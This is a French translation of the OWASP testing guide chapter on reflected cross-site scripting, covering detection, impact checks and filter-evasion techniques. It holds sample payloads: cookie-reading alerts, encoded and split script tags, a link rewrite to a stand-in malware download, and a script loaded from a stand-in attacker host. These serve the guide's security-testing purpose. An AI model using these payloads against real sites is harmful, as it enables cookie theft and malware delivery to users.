

# Test pour les scripts intersites reflétés

|ID          |
|------------|
|WSTG-INPV-01|

## Sommaire

Les [Cross-site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) reflétés se produisent lorsqu'un attaquant injecte du code exécutable de navigateur dans une seule réponse HTTP. L'attaque injectée n'est pas stockée dans l'application elle-même ; il n'est pas persistant et n'affecte que les utilisateurs qui ouvrent un lien ou une page Web tiers construit de manière malveillante. La chaîne d'attaque est incluse dans les paramètres URI ou HTTP spécialement conçus, traitée de manière incorrecte par l'application et renvoyée à la victime.

Les XSS reflétés sont le type le plus fréquent d'attaques XSS trouvées dans la nature. Les attaques XSS reflétés sont également appelées attaques XSS non persistantes et, puisque la charge utile de l'attaque est livrée et exécutée via une seule demande et réponse, elles sont également appelées XSS de premier ordre ou de type 1.

Lorsqu'une application Web est vulnérable à ce type d'attaque, elle transmet au client les entrées non validées envoyées via les requêtes. Le modus operandi commun de l'attaque comprend une étape de conception, dans laquelle l'attaquant crée et teste un URI incriminé, une étape d'ingénierie sociale, dans laquelle il convainc ses victimes de charger cet URI sur leurs navigateurs, et l'exécution éventuelle du code incriminé en utilisant le navigateur de la victime.

Généralement, le code de l'attaquant est écrit en langage JavaScript, mais d'autres langages de script sont également utilisés, par exemple, ActionScript et VBScript. Les attaquants exploitent généralement ces vulnérabilités pour installer des enregistreurs de frappe, voler les cookies des victimes, voler le presse-papiers et modifier le contenu de la page (par exemple, les liens de téléchargement).

L'un des principaux obstacles à la prévention des vulnérabilités XSS est le codage correct des caractères. Dans certains cas, le serveur Web ou l'application Web ne peut pas filtrer certains encodages de caractères. Ainsi, par exemple, l'application Web peut filtrer `<script>`, mais peut ne pas filtrer `%3cscript%3e` qui inclut simplement un autre encodage de balises.

## Objectifs des tests

- Identifier les variables qui sont reflétées dans les réponses.
- Évaluez l'entrée qu'ils acceptent et l'encodage qui est appliqué au retour (le cas échéant).

## Comment tester

### Test en boîte noire

Un test boîte noire comprendra au moins trois phases :

#### Détecter les vecteurs d'entrée

Détecter les vecteurs d'entrée. Pour chaque page Web, le testeur doit déterminer toutes les variables définies par l'utilisateur de l'application Web et comment les saisir. Cela inclut les entrées masquées ou non évidentes telles que les paramètres HTTP, les données POST, les valeurs de champ de formulaire masquées et les valeurs de radio ou de sélection prédéfinies. Généralement, des éditeurs HTML ou des proxies Web intégrés au navigateur sont utilisés pour afficher ces variables masquées. Voir l'exemple ci-dessous.

#### Analyser les vecteurs d'entrée

Analysez chaque vecteur d'entrée pour détecter les vulnérabilités potentielles. Pour détecter une vulnérabilité XSS reflété, le testeur utilise généralement des données d'entrée spécialement conçues avec chaque vecteur d'entrée. Ces données d'entrée sont généralement inoffensives, mais déclenchent des réponses du navigateur Web qui manifestent la vulnérabilité. Les données de test peuvent être générées à l'aide d'un fuzzer d'application Web, d'une liste prédéfinie automatisée de chaînes d'attaque connues ou manuellement.
  Voici quelques exemples de telles données d'entrée :

- `<script>alert(123)</script>`
- `"><script>alert(document.cookie)</script>`

Pour une liste complète des chaînes de test potentielles, consultez le [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

#### Vérifier l'impact

Pour chaque entrée de test tentée dans la phase précédente, le testeur analysera le résultat et déterminera s'il représente une vulnérabilité qui a un impact réaliste sur la sécurité de l'application Web. Cela nécessite d'examiner le code HTML de la page Web résultante et de rechercher l'entrée de test. Une fois trouvé, le testeur identifie tous les caractères spéciaux qui n'ont pas été correctement encodés, remplacés ou filtrés. L'ensemble de caractères spéciaux non filtrés vulnérables dépendra du contexte de cette section de HTML.

Idéalement, tous les caractères spéciaux HTML seront remplacés par des entités HTML. Les principales entités HTML à identifier sont :

- `>` (supérieur à)
- `<` (moins de)
- `&` (esperluette)
- `'` (apostrophe ou guillemet simple)
- `"` (guillemets doubles)

Cependant, une liste complète d'entités est définie par les spécifications HTML et XML. [Wikipedia a une référence complète](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references).

Dans le contexte d'une action HTML ou d'un code JavaScript, un ensemble différent de caractères spéciaux devra être échappé, encodé, remplacé ou filtré. Ces personnages incluent :

- `\n` (nouvelle ligne)
- `\r` (retour chariot)
- `'` (apostrophe ou guillemet simple)
- `"` (guillemets doubles)
- `\` (barre oblique inverse)
- `\uXXXX` (valeurs unicode)

Pour une référence plus complète, consultez le [guide JavaScript de Mozilla](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Values,_variables,_and_literals#Using_special_characters_in_strings).

#### Exemple 1

Par exemple, considérez un site qui a un avis de bienvenue "Welcome %username%" et un lien de téléchargement.

\
*Figure 4.7.1-1 : Exemple XSS 1*

Le testeur doit soupçonner que chaque point d'entrée de données peut entraîner une attaque XSS. Pour l'analyser, le testeur jouera avec la variable utilisateur et tentera de déclencher la vulnérabilité.

Essayons de cliquer sur le lien suivant et voyons ce qui se passe :

```text
http://exemple.com/index.php?user=<script>alert(123)</script>
```

Si aucune désinfection n'est appliquée, cela entraînera la fenêtre contextuelle suivante :

\
*Figure 4.7.1-2 : XSS exemple 1*

Cela indique qu'il existe une vulnérabilité XSS et il apparaît que le testeur peut exécuter le code de son choix dans le navigateur de n'importe qui s'il clique sur le lien du testeur.

#### exemple 2

Essayons un autre morceau de code (lien):

```text
http://exemple.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexemple.com/malicious.exe";}</script>
```

Cela produit le comportement suivant :

\
*Figure 4.7.1-3 : XSS exemple 2*

Cela amènera l'utilisateur, en cliquant sur le lien fourni par le testeur, à télécharger le fichier `malicious.exe` à partir d'un site qu'il contrôle.

### Contourner les filtres XSS

Les attaques de script intersite reflété sont empêchées car l'application Web nettoie les entrées, un pare-feu d'application Web bloque les entrées malveillantes ou par des mécanismes intégrés dans les navigateurs Web modernes. Le testeur doit tester les vulnérabilités en supposant que les navigateurs Web n'empêcheront pas l'attaque. Les navigateurs peuvent être obsolètes ou avoir des fonctions de sécurité intégrées désactivées. De même, il n'est pas garanti que les pare-feu d'applications Web reconnaissent les nouvelles attaques inconnues. Un attaquant pourrait créer une chaîne d'attaque qui n'est pas reconnue par le pare-feu de l'application Web.

Ainsi, la majorité de la prévention XSS doit dépendre de la désinfection par l'application Web des entrées utilisateur non fiables. Il existe plusieurs mécanismes à la disposition des développeurs pour le nettoyage, tels que le renvoi d'une erreur, la suppression, l'encodage ou le remplacement d'une entrée non valide. Le moyen par lequel l'application détecte et corrige les entrées non valides est une autre faiblesse principale dans la prévention du XSS. Une liste de refus peut ne pas inclure toutes les chaînes d'attaque possibles, une liste d'autorisation peut être trop permissive, le nettoyage peut échouer ou un type d'entrée peut être incorrectement approuvé et rester non nettoyé. Tous ces éléments permettent aux attaquants de contourner les filtres XSS.

Le [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) documente les tests courants d'évasion de filtre.

#### exemple 3 : Valeur d'attribut de balise

Étant donné que ces filtres sont basés sur une liste de refus, ils ne peuvent pas bloquer tous les types d'expressions. En fait, il existe des cas dans lesquels un exploit XSS peut être effectué sans l'utilisation de balises `<script>` et même sans l'utilisation de caractères tels que `<` et `>` qui sont couramment filtrés.

Par exemple, l'application Web peut utiliser la valeur saisie par l'utilisateur pour remplir un attribut, comme illustré dans le code suivant :

```html
<input type="text" name="state" value="INPUT_FROM_USER">
```

Un attaquant pourrait alors soumettre le code suivant :

```text
" onfocus="alert(document.cookie)
```

#### exemple 4 : Syntaxe ou encodage différent

Dans certains cas, il est possible que les filtres basés sur les signatures puissent être simplement vaincus en masquant l'attaque. Généralement, vous pouvez le faire en insérant des variations inattendues dans la syntaxe ou dans l'encodage. Ces variations sont tolérées par les navigateurs comme HTML valide lorsque le code est renvoyé, et pourtant elles pourraient également être acceptées par le filtre.

Suite à quelques exemples :

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### exemple 5 : contournement du filtrage non récursif

Parfois, la désinfection n'est appliquée qu'une seule fois et elle n'est pas effectuée de manière récursive. Dans ce cas, l'attaquant peut contourner le filtre en envoyant une chaîne contenant plusieurs tentatives, comme celle-ci :

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### exemple 6 : Inclure un script externe

Supposons maintenant que les développeurs du site cible aient implémenté le code suivant pour protéger l'entrée de l'inclusion d'un script externe :

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Découplage de l'expression régulière ci-dessus :

1. Recherchez un `<script`
2. Recherchez un " " (espace blanc)
3. N'importe quel caractère sauf le caractère `>` pour une ou plusieurs occurrences
4. Recherchez un `src`

Ceci est utile pour filtrer des expressions comme `<script src="http://attacker/xss.js"></script>` qui est une attaque courante. Mais, dans ce cas, il est possible de contourner le nettoyage en utilisant le caractère `>` dans un attribut entre script et src, comme ceci :

```text
http://exemple/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

Cela exploitera la vulnérabilité de cross site scripting illustrée précédemment, en exécutant le code JavaScript stocké sur le serveur Web de l'attaquant comme s'il provenait du site Web de la victime, `http://exemple/`.

#### exemple 7 : pollution des paramètres HTTP (HPP)

Une autre méthode pour contourner les filtres est la pollution des paramètres HTTP, cette technique a été présentée pour la première fois par Stefano di Paola et Luca Carettoni en 2009 lors de la conférence OWASP Pologne. Voir le [Test de la pollution des paramètres HTTP](04-Testing_for_HTTP_Parameter_Pollution.md) pour plus d'informations. Cette technique d'évasion consiste à scinder un vecteur d'attaque entre plusieurs paramètres portant le même nom. La manipulation de la valeur de chaque paramètre dépend de la façon dont chaque technologie Web analyse ces paramètres, de sorte que ce type d'évasion n'est pas toujours possible. Si l'environnement testé concatène les valeurs de tous les paramètres avec le même nom, alors un attaquant pourrait utiliser cette technique afin de contourner les mécanismes de sécurité basés sur des modèles.
Attaque régulière :

```text
http://exemple/page.php?param=<script>[...]</script>
```

Attaque utilisant HPP :

```text
http://exemple/page.php?param=<script&param=>[...]</&param=script>
```

Voir la [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) pour une liste plus détaillée des techniques d'évasion de filtre. Enfin, l'analyse des réponses peut devenir complexe. Une façon simple de le faire est d'utiliser du code qui fait apparaître une boîte de dialogue, comme dans notre exemple. Cela indique généralement qu'un attaquant pourrait exécuter du code JavaScript arbitraire de son choix dans les navigateurs des visiteurs.

### Test en boîte grise

Les tests en boîte grise sont similaires aux tests en boîte noire. Dans les tests en boîte grise, le pen-testeur a une connaissance partielle de l'application. Dans ce cas, les informations concernant l'entrée de l'utilisateur, les contrôles de validation d'entrée et la manière dont l'entrée de l'utilisateur est restituée à l'utilisateur peuvent être connues du testeur de plume.

Si le code source est disponible (test en boîte blanche), toutes les variables reçues des utilisateurs doivent être analysées. De plus, le testeur doit analyser toutes les procédures de désinfection mises en œuvre pour décider si elles peuvent être contournées.

## Outils

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/) vous aide à encoder des textes arbitraires vers et depuis 65 types de jeux de caractères que vous pouvez utiliser dans vos charges utiles personnalisées.
- [Hackvertor](https://hackvertor.co.uk/public) est un outil en ligne qui permet de nombreux types d'encodage et d'obscurcissement de JavaScript (ou de toute entrée de chaîne).
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) est un outil avancé d'attaque Cross-Site-Scripting (XSS).
- [ratproxy](https://code.google.com/archive/p/ratproxy/) est un outil d'audit de sécurité des applications Web semi-automatisé et largement passif, optimisé pour une détection précise et sensible, et une annotation automatique, des potentiels problèmes et modèles de conception liés à la sécurité basés sur l'observation du trafic existant initié par l'utilisateur dans des environnements Web 2.0 complexes.
- [Burp Proxy](https://portswigger.net/burp/) est un serveur proxy HTTP/S interactif pour attaquer et tester des applications Web.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) est un serveur proxy HTTP/S interactif pour attaquer et tester des applications Web avec un scanner intégré.

## Références

### Ressources OWASP

- [Fiche de triche pour l'évasion du filtre XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Livres

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", deuxième édition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "Le manuel de l'application Web - Découvrir et exploiter les failles de sécurité", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10 : 1-59749-154- 3

### Papiers blanc

- [CERT - Balises HTML malveillantes intégrées dans les requêtes Web des clients](https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf)
- [cgisecurity.com - La FAQ sur les scripts intersites](https://www.cgisecurity.com/xss-faq.html)
- [G.Ollmann - Injection de code HTML et script intersite](http://www.technicalinfo.net/papers/CSS.html)
- [S. Frei, T. Dübendorfer, G. Ollmann, M. May - Comprendre la menace du navigateur Web](https://www.techzoom.net/Publications/Insecurity-Iceberg)
